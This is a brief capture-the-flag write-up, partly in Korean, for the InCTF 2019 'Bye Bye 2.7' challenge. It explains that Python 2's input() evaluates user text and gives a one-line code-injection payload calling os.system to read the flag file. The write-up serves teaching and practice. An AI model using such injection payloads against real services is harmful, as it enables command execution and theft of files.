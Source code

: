 ```yaml
---
title: 2019 InCTF - Bye Bye 2.7
tags: ctf writeup misc inctf
---
```

Description:
```
So, now hack 2.7 ;)

Challenge service: nc 3.82.213.234 1337

[python.py](https://ctf.inctf.in/files/c2c3d8ed9113d01778595f6dc951daf0/python.py?token=eyJ0ZWFtX2lkIjozMTQsInVzZXJfaWQiOjQ0OCwiZmlsZV9pZCI6MTF9.XYm76Q.4E65waRK6vqgjYxxGeRNimAMhaI)
```
python.py:
```python
print "Print what you want: "
print input()
```
python 2.7의 취약점을 사용한 문제다.

python2에서 input()은 eval(raw_input())과 같다.

payload:
```python
__import__('os').system('cat flag')
```
